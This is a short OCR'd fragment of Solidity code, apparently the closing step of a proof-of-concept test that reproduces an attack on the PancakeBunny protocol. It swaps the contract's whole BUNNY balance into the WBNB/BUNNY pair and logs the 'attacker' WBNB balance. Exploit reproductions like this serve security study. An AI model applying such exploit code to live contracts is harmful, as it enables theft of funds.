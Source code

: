 │         {                                                                                                                                                                                                                                            │
│             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                       │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                        │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                         │
│             uint256 amountOut = router.getAmountOut(                                                                                                                                                                                                 │
│                 bunnyBalance,                                                                                                                                                                                                                        │
│                 reserve1,                                                                                                                                                                                                                            │
│                 reserve0                                                                                                                                                                                                                             │
│             );                                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                    │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│             emit log_named_decimal_uint(                                                                                                                                                                                                             │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                               │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                       │
│         }                                                                                                                                                                                                                                            │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯